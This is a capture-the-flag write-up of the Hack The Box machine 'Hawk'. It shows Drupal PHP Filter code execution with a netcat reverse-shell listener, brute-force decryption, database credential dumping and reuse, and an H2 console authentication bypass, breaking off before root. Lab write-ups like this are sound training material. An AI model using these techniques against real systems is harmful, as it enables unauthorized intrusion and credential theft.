---
tags:
  - openssl
  - drupal
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Hawk
- Reference : https://0xdf.gitlab.io/2018/11/30/htb-hawk.html
- Solved : 2025.1.1. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Found open ports including FTP (21), SSH (22), HTTP (80), and H2 Database (8082).
    - **Drupal Enumeration**:
        - Detected Drupal version 7.58 with vulnerable plugins like PHP Filter.
        - Explored web directories but found no useful files.
        
2. **Decrypt SSL Message**
    - **Anonymous Login**: Accessed `/messages` directory and downloaded `.drupal.txt.enc` file.
    - **Decryption**: Used `openssl-bruteforce` with the Rockyou wordlist to decrypt the file, revealing `PencilKeyboardScanner123` as the password for the Drupal portal.
    
3. **Web Exploitation**
    - **Drupal Login**: Logged in using guessed username `admin` and the password `PencilKeyboardScanner123`.
    - **PHP Code Execution**:
        - Activated the PHP Filter module.
        - Created an article containing a reverse shell script.
        - Gained a shell as `www-data`.
        
4. **Privilege Escalation to `daniel`**
    - **Database Credential Extraction**:
        - Retrieved MySQL credentials (`drupal:drupal4hawk`) from `settings.php`.
    - **SSH Login**: Reused the MySQL password to log in as `daniel` via SSH.
    
5. **Privilege Escalation to `root`**
    - **H2 Database Exploitation**:
        - Established SSH port forwarding for local access to the H2 console on port 8082.
        - Bypassed authentication by specifying a non-existent database.
        - Used `ALIAS` to execute commands as `root`.
    - **Reverse Shell**:
        - Uploaded a reverse shell script using `wget`.
        - Executed the script and gained a root shell.

---

### Key Techniques:

- **SSL Decryption**: Brute-forced an encrypted file to retrieve sensitive information.
- **Drupal Exploitation**: Leveraged PHP Filter to achieve code execution.
- **Password Reuse**: Reused extracted credentials for lateral movement.
- **H2 Database Exploitation**: Abused misconfigured database settings for root-level command execution.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.102
Performing quick port scan on 10.10.10.102...
Found open ports: 21,22,80,5435,8082,9092
Performing detailed scan on 10.10.10.102...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-31 15:20 EST
Nmap scan report for 10.10.10.102
Host is up (0.13s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
|_http-generator: Drupal 7 (http://drupal.org)
5435/tcp open  tcpwrapped
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.94SVN%I=7%D=12/31%Time=677451F3%P=aarch64-unknown-linu
```

- http is running on port 8082 which has to do with `H2 Database`.
- Port 5435, 9092 might be also related with the web service.
- ftp(21), ssh(22), http(80) common ports are also open.

### http(80)



It looks like a simple drupal website with login function.
Let's run `droopescan` first.

```bash
┌──(kali㉿kali)-[~]
└─$ /home/kali/.local/bin/droopescan scan drupal -u http://10.10.10.102

[+] Plugins found: 
    profile http://10.10.10.102/modules/profile/
    php http://10.10.10.102/modules/php/
    image http://10.10.10.102/modules/image/

[+] Themes found:
    seven http://10.10.10.102/themes/seven/
    garland http://10.10.10.102/themes/garland/

[+] Possible version(s):
    7.58

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.102/CHANGELOG.txt                                                            
    Default admin - http://10.10.10.102/user/login

[+] Scan finished (0:03:26.987118 elapsed)
```

It shows several plugins, and themes with version.

According to the material from Hacktricks, `php plugin` can cause RCE.
Since we don't have any valid credential yet, this might be useful later.

Here's the reference:
https://hacktricks.boitatech.com.br/pentesting/pentesting-web/drupal

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.102 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.102
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 403) [Size: 7398]
/misc                 (Status: 301) [Size: 311] [--> http://10.10.10.102/misc/]                                           
/0                    (Status: 200) [Size: 7464]
/user                 (Status: 200) [Size: 7297]
/themes               (Status: 301) [Size: 313] [--> http://10.10.10.102/themes/]                                         
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.102/modules/]                                        
/admin                (Status: 403) [Size: 7551]
/scripts              (Status: 301) [Size: 314] [--> http://10.10.10.102/scripts/]                                        
/node                 (Status: 200) [Size: 7464]
/Search               (Status: 403) [Size: 7398]
/sites                (Status: 301) [Size: 312] [--> http://10.10.10.102/sites/]                                          
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.102/includes/]                                       
/profiles             (Status: 301) [Size: 315] [--> http://10.10.10.102/profiles/]                                       
/README               (Status: 200) [Size: 5382]
/robots               (Status: 200) [Size: 2189]
/INSTALL              (Status: 200) [Size: 17995]
/LICENSE              (Status: 200) [Size: 18092]
/User                 (Status: 200) [Size: 8940]
```

I visited several sub pages found, but none of them were useful.

I also checked if the drupal version 7.58 is vulnerable.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit drupal 7.58                               
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                   | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                   | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution        | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)    | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)    | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)           | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution ( | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution ( | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                             | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                         | php/webapps/46459.py
------------------------------------------------------------------------------------------- ---------------------------------
```

And I tried it, but failed.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 44448.py
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://10.10.10.102/
Not exploitable
```

### ftp(21)

```shell
┌──(kali㉿kali)-[~/htb]
└─$ ftp anonymous@10.10.10.102         
Connected to 10.10.10.102.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48192|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
226 Directory send OK.
ftp> cd messages
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||43242|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 .
drwxr-xr-x    3 ftp      ftp          4096 Jun 16  2018 ..
-rw-r--r--    1 ftp      ftp           240 Jun 16  2018 .drupal.txt.enc
226 Directory send OK.
ftp> get .drupal.txt.enc
local: .drupal.txt.enc remote: .drupal.txt.enc
229 Entering Extended Passive Mode (|||49641|)
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
100% |****************|   240        0.52 KiB/s    00:00 ETA
226 Transfer complete.
240 bytes received in 00:00 (0.25 KiB/s)
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49612|)
550 Permission denied.
```

FTP anonymous login is allowed, and there's a directory named "messages".
I downloaded `.drupal.txt.enc` file from the directory.
Also, it doesn't allow `PUT` method.

### openssl decrypt

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat .drupal.txt.enc 
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=


┌──(kali㉿kali)-[~/htb]
└─$ file .drupal.txt.enc               
.drupal.txt.enc: openssl enc'd data with salted password, base64 encoded
```

Here's an automated brute forcing tool named `openssl-bruteforce` :
https://github.com/HrushikeshK/openssl-bruteforce.git 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python2 openssl-bruteforce/brute.py /usr/share/wordlists/rockyou.txt  openssl-bruteforce/ciphers.txt .drupal.txt.enc
Running pid: 262027     Cipher: AES-128-CBC
Running pid: 262536     Cipher: AES-128-CFB
Running pid: 262546     Cipher: AES-128-CFB1
Running pid: 262556     Cipher: AES-128-CFB8
Running pid: 262566     Cipher: AES-128-CTR
Running pid: 262576     Cipher: AES-128-ECB
Running pid: 263191     Cipher: AES-128-OFB
Running pid: 263209     Cipher: AES-192-CBC
Running pid: 264693     Cipher: AES-192-CFB
Running pid: 264703     Cipher: AES-192-CFB1
Running pid: 264713     Cipher: AES-192-CFB8
Running pid: 264723     Cipher: AES-192-CTR
Running pid: 264733     Cipher: AES-192-ECB
Running pid: 265219     Cipher: AES-192-OFB
Running pid: 265229     Cipher: AES-256-CBC
--------------------------------------------------
Password found with algorithm AES-256-CBC: friends
Data: 
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department

--------------------------------------------------
```

Here I found a password for decryption and decrypted message.
It says the password for the portal(probably `drupal`) is `PencilKeyboardScanner123`.


# Shell as `www-data`
### http(80) - drupal again

With the found credential `admin` : `PencilKeyboardScanner123` (The user name is just guessing), I could login to the drupal portal.



As I found from the previous enumeration, once I have a valid credential to log-on, I can use `php plugin`.

Reference : https://hacktricks.boitatech.com.br/pentesting/pentesting-web/drupal

First, I need to activate `PHP filter` plugin from "Modules" tab.



Then, let's create an article with PHP code as its content.



Then, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000               
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.102] 52174
bash: cannot set terminal process group (835): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hawk:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked! I got a shell as `www-data`.


# Shell as `daniel`

### Enumeration

First, let's investigate webroot. I can find DB credential from `settings.php` file.

```bash
www-data@hawk:/var/www/html$ cat sites/default/settings.php

<SNIP>
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
<SNIP>
```

The credential is `drupal` : `drupal4hawk`

Since the interactive shell is not working well with `mysql` command, I ran it one by one by using `-e` option.

```bash
www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "show databases;"
< mysql -u drupal -pdrupal4hawk -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
drupal
mysql
performance_schema
sys


www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "use drupal;show tables;"
<u drupal -pdrupal4hawk -e "use drupal;show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_drupal
actions
authmap
batch
block
<SNIP>
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog


www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "use drupal;select name,pass from users;"
<l4hawk -e "use drupal;select name,pass from users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
name    pass

admin   $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
bokchee $S$DoKURujkWKDd6E61WK7tH7CHzcNgqgVxcrp4HyN90PjFLY.vlatv
```

There's no other users found except the one I created.

### Re-use password

Then, let's check what user exists.

```bash
www-data@hawk:/home$ ls
ls
daniel


www-data@hawk:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tomcat:x:1001:46::/opt/tomat/temp:/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Debian-snmp:x:113:116::/var/lib/snmp:/bin/false
```

There is only `daniel` which has a shell and home directory.
Btw, the shell for `daniel` is not a normal shell but `python`.
This can simply escaped using `import pty;pty.spawn("/bin/bash")`
Using the found credential(`drupal4hawk`), let's try `ssh` to the target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh daniel@10.10.10.102 
The authenticity of host '10.10.10.102 (10.10.10.102)' can't be established.
ED25519 key fingerprint is SHA256:jcuqa44g/a1pFArv7e9IFSswe7plzlg2gNBVim3xXhY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.102' (ED25519) to the list of known hosts.
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan  1 12:58:31 UTC 2025

  System load:  0.0               Processes:           168
  Usage of /:   47.6% of 7.32GB   Users logged in:     0
  Memory usage: 48%               IP address for eth0: 10.10.10.102
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.

Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> import pty;pty.spawn("/bin/bash")
daniel@hawk:~$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
```

I got a `daniel`'s shell!


# Shell as `root`

### Enumeration

I ran `linpeas` for automating enumeration.

```ruby
daniel@hawk:~$ ./linpeas_linux_amd64

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                         
Sudo version 1.8.21p2    


╔══════════╣ Last time logon each user
Username         Port     From             Latest                           
root             tty1                      Tue Jul 27 15:46:42 +0000 2021
daniel           pts/0    10.10.14.4       Wed Jan  1 12:58:32 +0000 2025


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::9092                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::8082                 :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5435                 :::*                    LISTEN      -    


╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                             
<SNIP>
root       753  0.0  0.0   4628   860 ?        Ss    2024   0:00      _ /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root       754  0.0  5.0 2355104 51316 ?       Sl    2024   0:34          _ /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
```

No obvious vulnerability's found.
The process `h2-1.4.196.jar` is running as `root`.
It seems like "H2 Database" we found on port 5435, 8082, 9092 that we haven't visited.

Let's compare how the connection is different when I'm accessing from remote or from local.

Accessing from remote(kali):
```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.10.102:8082
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!--
Copyright 2004-2014 H2 Group. Multiple-Licensed under the MPL 2.0,
and the EPL 1.0 (http://h2database.com/html/license.html).
Initial Developer: H2 Group
-->
<html><head>
    <meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
    <title>H2 Console</title>
</head>
<body style="margin: 20px">
    <h1>H2 Console</h1>
    <p>
        Sorry, remote connections ('webAllowOthers') are disabled on this server.
    </p>
</body></html>     
```

Accessing from local(target):
```bash
daniel@hawk:~$ curl http://127.0.0.1:8082
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!--
Copyright 2004-2014 H2 Group. Multiple-Licensed under the MPL 2.0,
and the EPL 1.0 (http://h2database.com/html/license.html).
Initial Developer: H2 Group
-->
<html><head>
    <meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
    <title>H2 Console</title>
    <link rel="stylesheet" type="text/css" href="stylesheet.css" />
<script type="text/javascript">
location.href = 'login.jsp?jsessionid=db190d18b98674367fa8df6b65e16e12';
</script>
</head>
<body style="margin: 20px;">

<h1>Welcome to H2</h1>
<h2>No Javascript</h2>
If you are not automatically redirected to the login page, then
Javascript is currently disabled or your browser does not support Javascript.
For this application to work, Javascript is essential.
Please enable Javascript now, or use another web browser that supports it.

</body></html>
```

It seems that it shows different page based on where I'm trying to connect.
Let's open a SSH tunnel to port forward from the target to kali.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh -L 8082:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: 

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan  1 15:58:36 UTC 2025

  System load:  0.0               Processes:           170
  Usage of /:   47.6% of 7.32GB   Users logged in:     1
  Memory usage: 69%               IP address for eth0: 10.10.10.102
  Swap usage:   1%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jan  1 12:58:32 2025 from 10.10.14.4
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
```

Then, let's try to connect to `127.0.0.1:8082`.



Now I can see the right UI.

Here's the reference how to exploit this;
https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2

It says that if credential is not working, we can give non-existing database to bypass authentication.

I emptied password, and it worked.



After log-in, I can see the UI with input to take query.



As I read from the reference, I tried `FILE_READ` command to read `/etc/passwd`.
And it successfully read the file.



The reference also provides a methodology to run linux command using `ALIAS`.
Let's set `ALIAS` first.

